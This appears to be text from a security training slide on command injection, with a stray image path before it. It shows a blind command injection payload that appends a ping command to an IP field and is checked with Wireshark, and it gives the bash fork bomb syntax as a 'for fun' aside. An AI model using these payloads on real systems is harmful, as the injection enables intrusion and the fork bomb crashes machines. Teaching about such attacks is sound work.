

# Command Injection cont.
Open Wireshark and select the interface you are using
Blind Command Injection:  <ip1>;ping <your ip>
For fun: FORK BOMB
Syntax: : ( ) { : | : & } ; :